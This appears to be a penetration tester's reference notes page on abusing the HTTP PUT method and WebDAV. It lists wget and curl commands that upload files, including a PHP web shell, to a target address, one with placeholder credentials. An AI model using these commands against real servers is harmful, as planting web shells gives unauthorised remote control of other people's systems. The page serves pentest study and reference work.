 # Manual

```
$ wget --method=PUT --post-file=file.txt http[s]://<IP>
```

```
$ curl -T 'webshell.txt' http[s]://<IP>

$ curl -T webshell.php http://<IP>/webdav/webshell.php -u <username>:<password> -vvv
```

```
$ curl -v -X PUT 'http://<IP>/webshell.php' -d @webshell.php
```

```
$ curl -v -X PUT 'http://<IP>/webshell.php' --data-binary @webshell.php 
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/HTTP/03 - Detecting HTTP Methods/Manual|Active Fingerprinting: HTTP Methods]]

- [[02 - PUT Upload|Vulnerability Assessment: PUT Upload]]

### Hacktricks

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/put-method-webdav.html)

### Hacking Articles

- [Hacking Articles: Multiple Ways to Exploiting PUT Method](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)